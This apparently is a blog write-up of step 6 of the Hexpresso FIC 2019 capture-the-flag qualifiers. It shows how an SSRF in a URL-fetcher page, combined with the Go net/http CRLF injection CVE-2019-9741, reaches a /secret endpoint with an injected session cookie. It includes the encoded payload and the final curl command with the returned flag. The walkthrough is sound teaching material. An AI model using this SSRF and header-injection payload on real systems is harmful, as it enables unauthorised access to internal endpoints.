 ```yaml
---
title: Hexpresso FIC Quals 2019: Step 6
slug: hexpresso-fic-6
date: 20/12/2019 06
---
```


The sixth step is a WEB application that allows us to fetch an URL.

![Introduction](/assets/hexpresso-fic-quals/step6/intro.png)

In the source code of the page we can read:

```html
<div class="col s12">
    <!-- <span>PS: To get your flag go here: <a href="/secret">/secret</a></span> -->
</div>
```

So, our objective is to access `/secret`. Let's see:

![Secret](/assets/hexpresso-fic-quals/step6/secret.png)

Coming from `127.0.0.1` should not be a big deal using the URL fetcher
itself, right? This challenge really looks like a standard SSRF anyways...

![Not so easy](/assets/hexpresso-fic-quals/step6/not_so_easy.png)

*Note: we must add a GET parameter because the script appends
`:80/` at the end of the URL. We could deal with it but its more convenient
to totally absorb it.*

It seems that `0.0.0.0` is reachable. We should now be coming from `127.0.0.1`
but there is something else. We are missing the `GOSESSION` cookie.

I tried to trick the applicaion for some time but the problem is clear: we
have to control the body of the query that the URL fetcher performs in order to
add the cookie.

At this point, I was very sad and did not know what to do. I was about to
give up when my teammate [Plean](https://twitter.com/plean702) sent me
[this link](https://github.com/golang/go/issues/30794).

[CVE-2019-9741](https://nvd.nist.gov/vuln/detail/CVE-2019-9741) is a CRFL
injection, in the `net/http` package of Go (version 1.11). It is exactly
what we need as it allows to write the body of the query.

I tweaked the example payload of the GitHub (see the link above) issue and
came up with this:

```
0.0.0.0/secret?b%3d%20HTTP/1.1%0d%0aCookie:%20GOSESSION%3dabc
```

A bit more readble:

```
0.0.0.0/secret?b= HTTP/1.1\r
Cookie: GOSESSION=abc
```

The original body will still be present, after ours, but it does not matter.

Because we have to deal with CRLFs, it is easier to urlencode the payload.
However, the URL fetcher interface does not handle it well. We can use `curl`
instead:

Final command:

```
$ curl 'http://c4ffddcc437c5df3e6d681e7cafab510.hexpresso.fr/host?host=0.0.0.0/secret?b%3d%20HTTP/1.1%0d%0aCookie:%20GOSESSION%3dabc%0d%0aSHIT:%20123' | jq -r ".content" | base64 -D
{"ok":true,"message":"Ok here is your flag ...","flag":"Gg ! Send mail here 9ca37832b9fb80-penultimate-stage@hexpresso.fr ! But there is one last step here for the brave available on : https://ctf.hexpresso.fr/219058289d8699adc0b119374c2fc5bc"}
```

I took a break at this point but my teammate Shiro continued on step 7. Please,
take a look at [his writeup](https://github.com/Pycatchown/writeUps/blob/master/FIC/step7/wu_step7.md).
